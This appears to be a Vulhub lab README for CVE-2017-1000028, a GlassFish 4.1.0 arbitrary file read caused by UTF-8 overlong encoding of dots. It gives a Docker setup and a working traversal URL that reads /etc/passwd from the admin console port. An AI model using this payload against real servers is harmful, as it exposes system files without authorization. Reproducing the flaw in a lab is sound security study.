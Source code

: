 # GlassFish 4.1.0 Arbitrary File Read (CVE-2017-1000028)

[中文版本(Chinese version)](README.zh-cn.md)

GlassFish is an open-source application server for the Java EE platform. A vulnerability in GlassFish allows attackers to read arbitrary files through UTF-8 Overlong Encoding attack.

The vulnerability exists because GlassFish does not properly handle UTF-8 Overlong Encoding when decoding URLs. As a result, `%c0%ae` is decoded as the ASCII character `.` (dot). By using `%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/` in the URL, an attacker can traverse directories and read arbitrary files on the system.

References:

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

## Environment Setup

Execute the following command to start a GlassFish server 4.1:

```
docker compose up -d
```

After the server starts, you can access GlassFish Admin Console on `http://your-ip:4848`.

## Vulnerability Reproduction

Visit the following URL to read the contents of `/etc/passwd`:

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](1.png)

### Additional Notes

The super administrator password is set in `docker-compose.yml`, with a default value of `vulhub_default_password`. You can use this password to log in to the admin account on port 4848.
